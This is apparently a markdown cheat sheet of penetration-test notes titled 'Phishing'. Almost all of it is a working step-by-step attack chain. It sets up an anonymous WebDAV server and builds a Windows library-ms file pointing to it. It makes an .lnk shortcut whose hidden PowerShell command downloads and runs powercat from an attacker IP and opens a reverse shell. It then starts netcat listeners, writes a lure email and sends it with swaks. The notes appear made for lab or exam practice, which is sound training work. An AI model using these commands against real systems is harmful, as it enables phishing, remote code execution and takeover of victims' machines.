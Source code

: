 # 🔹Phishing 

### 1) Enable /webdav Server
```
pip3 install wsgidav
pip3 install cheroot
mkdir webdav
sudo wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root webdav/
```

### 2) Create 'config.Library.ms'
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.239</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

### 3) Create lnk file (in WINDOWS) with PS payload (powercat)
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -ep bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.155/powercat.ps1');powercat -c 192.168.45.155 -p 443 -e powershell"

# Powercat
https://github.com/besimorhino/powercat/blob/master/powercat.ps1
```

### 4) Staging 
- Place `powercat.ps1`, `shortcut.lnk`, `config.Library.ms` & `body.txt` in **/Webdav**
- nc -lnvp 1337 (from **/WebDav** to get `powercat.ps1`)
- nc -lnvp 443 (to catch reverse shell when .lnk gets clicked)
- `body.txt` has to sound convincing
```
 Hi,

 please click on the attachment
```

### 5) Execution (require mail credentials)

> jim@relia -> has to be legit recipient
```
swaks -t jim@relia.com --from test@relia.com --attach @config.Library-ms --server 192.168.186.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```



